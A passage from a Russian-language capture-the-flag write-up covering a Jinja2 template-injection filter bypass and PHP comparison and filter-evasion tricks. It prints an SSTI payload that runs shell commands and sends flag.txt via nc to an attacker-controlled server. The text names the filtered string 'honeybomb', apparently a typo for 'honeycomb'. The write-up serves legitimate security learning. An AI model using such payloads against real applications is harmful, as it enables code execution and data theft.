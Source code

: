 Блокировка успешно обойдена.

![Обход блокировки](web/Bubble_Cards/writeup_pics/6.png)

Так как у атакующего есть лишь информация о том, верно ли выражение в брекетах или нет, у него есть возможность получить флаг посимвольным чтением, или же послать флаг на подконтрольный ему сервер, как показано в примере ниже:

`{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag.txt | nc 192.168.100.48 7777')['read']() %} a {% endif %}`


### PHP Squid

У задания было две вариации: в первой флаг лежит в корневой папке, вместе с index.php, во второй нужно успешно пройти все проверки, представленные на заглавной странице.

Рассмотрим все проверки

#### firstGame

Первая проверка требует равенства хешей sha1 при разных исходных значениях. В php этого можно добиться при отправке массивов вместо строк:
```php
game1_green[]=2&game1_red[]=1
```

#### secondGame

Вторая проверка удаляет подстроку `honeybomb` из параметра game2, однако необходимо, что бы эта строка осталась. Подстрока удаляется лишь 1 раз, если вставить конструкцию `honeyhoneycombcomb`, будет удалена первая подстрока `honeybomb`, но останется вторая:
```php
game2=honeyhoneycombcomb
```
